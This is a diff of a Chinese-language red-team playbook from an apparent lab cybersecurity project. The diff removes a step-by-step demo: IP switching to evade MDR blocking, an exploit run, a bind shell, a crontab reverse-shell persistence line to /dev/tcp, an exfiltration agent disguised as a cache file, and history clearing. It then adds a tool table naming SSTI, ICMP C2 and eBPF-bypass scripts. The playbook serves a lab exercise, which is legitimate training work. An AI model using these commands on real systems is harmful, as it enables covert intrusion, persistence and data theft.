

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/RED_TEAM_PLAYBOOK.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/RED_TEAM_PLAYBOOK.md
+++ b/docs/RED_TEAM_PLAYBOOK.md
@@ -176,86 +196,19 @@ exit
 
 ## 工具清單
 
-| 工具 | 用途 |
-|------|------|
-| Nmap | 埠掃描與服務探測 |
-| Python 3 | exploit / exfil 腳本 |
-| Netcat (nc) | Bind Shell 連線 |
-| Base64 | Payload 編碼/解碼 |
-| dig | DNS 隱蔽通道發送 |
-| exfil_listener.py | 攻擊機端 DNS/ICMP 接收器 |
-| exfil_agent.py | 靶機端自動蒐集 + 外傳 agent |
-| deploy_agent.sh | 一鍵生成 agent 部署指令 |
-| ip_switch.sh | IP alias 管理 (繞過 MDR) |
-| red_reverse_shell.py | TCP 反向 Shell (繞過 eBPF v1) |
-
----
-
-## 完整 Demo 流程 (快速指令速查)
-
-以下是完整的 Demo 執行順序，整合 IP 切換 + 攻擊 + 外傳：
-
-### 事前準備 (攻擊機 WSL2)
-
-```bash
-# 0. 掛載備用 IP
-./ip_switch.sh add
-
-# 1. 啟動 exfil 接收器 (背景執行)
-sudo .venv/bin/python3 exfil_listener.py &
-
-# 2. 生成 agent 部署指令 (先備好，稍後貼入 shell)
-./deploy_agent.sh 172.22.137.15
-```
-
-### Phase 1-2: 偵察 + 蜜罐觸發
-
-```bash
-# 3. 偵察目標
-./recon.sh <TARGET_IP>
-
-# 4. Demo 蜜罐觸發 (用主 IP 172.22.137.14，預期被 MDR 封鎖)
-nc -v <TARGET_IP> 2222
-# → 藍軍 MDR 自動封鎖主 IP
-```
-
-### Phase 3: 攻擊 (IP 切換後)
-
-```bash
-# 5. 用備用 IP 繞過封鎖，發動攻擊
-.venv/bin/.venv/bin/python3 exploit.py <TARGET_IP> 9999 172.22.137.15
-
-# 6. 連線 Bind Shell (指定備用 IP)
-nc -s 172.22.137.15 -v <TARGET_IP> 4444
-```
-
-### Phase 4-6: 後滲透 (在 Bind Shell 內)
-
-```bash
-# 7. 情報蒐集
-whoami && uname -a && id
-
-# 8. 持久化
-(crontab -l 2>/dev/null; echo "* * * * * bash -c 'bash -i >& /dev/tcp/172.22.137.15/4444 0>&1'") | crontab -
-
-# 9. 資料外傳 (貼入步驟 2 生成的部署指令)
-echo '<base64>' | base64 -d > /tmp/.cache_update.py && python3 /tmp/.cache_update.py 172.22.137.15
-# → agent 自動蒐集 + 外傳 + 自刪
-# → 攻擊機 listener 自動接收到 ./loot/
-
-# 10. 清除痕跡 & 離開
-history -c && exit
-```
-
-### 收尾 (攻擊機)
-
-```bash
-# 11. 檢查戰利品
-ls -la ./loot/
-
-# 12. 清理備用 IP
-./ip_switch.sh remove
-```
+| 工具 | 檔案 | 用途 |
+|------|------|------|
+| Nmap | (系統) | 埠掃描與服務探測 |
+| Netcat (nc) | (系統) | 蜜罐觸發 / 連線測試 |
+| red_attacker.py | `red_team/` | 主攻擊：SSTI → memfd → ICMP C2 (AES-256-CTR) |
+| red_reverse_shell.py | `red_team/` | eBPF v1 繞過：TCP 反向 Shell |
+| exploit.py | `red_team/` | 舊版 WAF bypass 攻擊（備用） |
+| recon.sh | `red_team/` | 自動化偵察腳本 |
+| ip_switch.sh | `red_team/` | IP alias 管理（繞過網路 MDR） |
+| exfil_agent.py | `red_team/` | 靶機端自動蒐集 + 外傳 agent |
+| exfil_listener.py | `red_team/` | 攻擊機端 DNS/ICMP 接收器 |
+| deploy_agent.sh | `red_team/` | 一鍵生成 agent 部署指令 |
+| post_exploit.sh | `red_team/` | 後滲透情報蒐集腳本 |
 
 ---
 
````
Also changed, not shown: other parts of docs/RED_TEAM_PLAYBOOK.md (+84 -62 lines).
